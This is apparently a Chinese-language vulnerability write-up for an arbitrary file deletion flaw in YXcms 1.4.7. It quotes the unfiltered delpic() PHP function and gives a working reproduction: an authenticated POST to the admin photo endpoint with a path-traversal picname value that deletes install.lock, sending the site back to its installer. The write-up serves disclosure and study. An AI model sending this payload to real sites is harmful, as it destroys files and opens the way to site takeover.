 ```yaml
---
title: YXCMS 1.4.7任意文件删除
id: zhfly3298
---
```


# YXcms 1.4.7 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到$picname接收POST过来的值，然后$path等于文件开头定义的静态变量 static protected $uploadpath='';//图片上传路径 没有对传入的值进行任何的过滤，使用函数file_exists()判断一下文件是否存在就给unlink执行删除文件了。

```
public function delpic()
{
    if(empty($_POST['picname'])) $this->error('参数错误~');
    $picname=$_POST['picname'];
    $path=$this->uploadpath;
    if(file_exists($path.$picname))
      @unlink($path.$picname);
    else{echo '图片不存在~';return;} 
    if(file_exists($path.'thumb_'.$picname))
       @unlink($path.'thumb_'.$picname);
    else {echo '缩略图不存在~';return;}
    echo '原图以及缩略图删除成功~';
} 
```

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

```
http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic 
```

POST：

```
picname=../../protected/apps/install/install.lock 
```

![image](../img/9257e1af6fa849b1119cd9aa1ff17a67.png)

然后访问网站首页就会自动转到安装的页面

![image](../img/aa5298005bebc7b3745ff1407d144c4b.png)

看到目录下的install.lock文件已经被删除了

![image](../img/164da8c3a37baecdc59b91826daf9f1d.png)
